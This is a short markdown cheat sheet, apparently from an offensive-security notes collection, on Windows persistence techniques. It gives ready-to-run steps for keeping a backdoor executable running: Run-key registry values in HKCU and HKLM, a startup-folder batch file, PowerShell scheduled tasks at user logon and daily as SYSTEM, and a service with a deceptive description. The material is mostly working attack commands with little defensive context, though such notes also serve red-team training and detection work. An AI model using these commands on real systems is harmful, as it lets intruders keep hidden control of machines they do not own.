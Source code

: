 # Windows - Persistence

## Userland

### Registry
Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.
```
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

### Startup
Create a batch script in the user startup folder.
```
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

### Scheduled Task
```
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```


## Elevated

### HKLM
Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.
```
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

### Services
Create a service that will start automatically or on-demand.
```
PS C:\> New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here."
```

### Scheduled Tasks
Scheduled Task to run as SYSTEM, everyday at 9am.
```
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -Daily -At 9am
PS C:\> $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```


## Thanks to
 * [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
